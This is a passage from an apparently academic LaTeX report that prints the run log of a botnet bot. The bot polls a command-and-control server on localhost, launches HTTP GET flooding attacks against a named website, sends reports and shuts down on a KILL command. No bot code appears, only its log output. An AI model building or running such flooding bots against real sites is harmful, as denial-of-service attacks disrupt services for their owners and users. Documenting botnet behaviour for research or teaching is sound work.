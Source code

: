 \begin{verbatim}
                 Attack scheduled
08:37:08.394 [main] INFO attackHttpFlooding - 
                 Scheduling HTTP GET Flooding attack against http://www.micheleporretta.com...
08:37:08.395 [main] INFO attackHttpFlooding - 
                 Attack scheduled
08:37:08.395 [BotPool_Worker-5] INFO  execute - 
                 Launching HTTP FLOOD attack: 
                 GET http://www.micheleporretta.com (1/3) behind proxy none
08:37:08.395 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:08.396 [BotPool_Worker-6] INFO  execute - 
                 Launching HTTP FLOOD attack: 
                 GET http://www.micheleporretta.com (1/1) behind proxy none
08:37:09.824 [BotPool_Worker-7] INFO  execute - 
                 Launching HTTP FLOOD attack: 
                 GET http://www.micheleporretta.com (2/3) behind proxy none
08:37:10.734 [BotPool_Worker-8] INFO  execute - 
                 Launching HTTP FLOOD attack: 
                 GET http://www.micheleporretta.com (3/3) behind proxy none
08:37:11.404 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:15.414 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:18.420 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:22.427 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:25.437 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:29.444 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:33.450 [main] INFO run - 
                 Received command REPORT with params {}
                 from C&C at http://localhost:3000/command
08:37:33.451 [main] INFO executeCommand - 
                 Executing command REPORT with params {}
08:37:39.214 [main] INFO report - 
                 Sending report to C&C at http://localhost:3000/report...
08:37:44.182 [main] INFO report - 
                 Sending report to C&C at http://localhost:3000/report...
08:37:44.188 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:47.196 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:50.205 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:53.211 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:56.216 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:38:00.225 [main] INFO run - 
                 Received command KILL with params {report=false}
                 from C&C at http://localhost:3000/command
08:38:00.226 [main] INFO executeCommand - 
                 Executing command KILL with params {report=false}
08:38:00.227 [main] INFO kill - Bot shut down
\end{verbatim}
\noindent\\
The following are commands-related events (recorded in \texttt{data/log/commands.log}):

